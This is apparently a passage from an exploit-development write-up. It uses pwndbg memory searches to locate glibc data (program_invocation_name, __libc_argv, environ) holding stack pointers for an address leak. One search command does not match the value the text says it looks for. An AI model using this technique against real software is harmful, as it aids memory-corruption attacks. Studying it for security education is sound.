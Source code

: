 ```
    0x7f0948a1a000     0x7f0948a1c000 rw-p     2000 219000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffd14556000     0x7ffd14577000 rw-p    21000      0 [stack]
```

This confirms that the logic for glibc offsets is correct. We now need to find a place in glibc
data segment that can leak the stack. There should be plenty. Let's look for a
`0x007ffd14` signature:

```
pwndbg> search -4 0x7ffc88
libc.so.6       0x7f0948a1b533 0x576ec700007ffd14
libc.so.6       0x7f0948a1b53b 0x7ffd14
libc.so.6       0x7f0948a1ba23 0x100007ffd14
[anon_7f0948a1c] 0x7f0948a22203 0x7ffd14
[anon_7f0948ae5] 0x7f0948ae5a43 0x7ffd14
[anon_7f0948ae5] 0x7f0948ae5ddb 0x7ffd14
```

Note that the addresses have `3` and `b` suffixes - the actual stack addresses
will be `0` and `8` respectively (we looked for the middle part of a 64-bit
pointer). Poking at all these:

*   `libc.so.6 0x7f0948a1b533` looks useful:

    ```
    pwndbg> x/1xg 0x7f0948a1b530
    0x7f0948a1b530 <program_invocation_short_name>:	0x00007ffd14576ecc
    ```

*   `libc.so.6 0x7f0948a1b53b` looks useful:

    ```
    pwndbg> x/1xg 0x7f0948a1b538
    0x7f0948a1b538 <program_invocation_name>:	0x00007ffd14576ec7
    ```

*   `libc.so.6 0x7f0948a1ba23` looks useful

    ```
    pwndbg> x/1xg 0x7f0948a1ba20
    0x7f0948a1ba20 <__libc_argv>:	0x00007ffd14575658
    ```

*   `[anon_7f0948a1c] 0x7f0948a22203` has a stack pointer, but, with a
    `00` in the LSB, we may have problem putting it in a string.

    ```
    pwndbg> x/1xg 0x7f0948a22200
    0x7f0948a22200 <environ>:	0x00007ffd14575668
    ```

*   `[anon_7f0948ae5] 0x7f0948ae5a43` looks useful, but is not associated
    with a symbol, so, could be more variable:

    ```
    pwndbg> x/1xg 0x7f0948ae5a43
    0x7f0948ae5a43:	0x00000000007ffd14
    ```
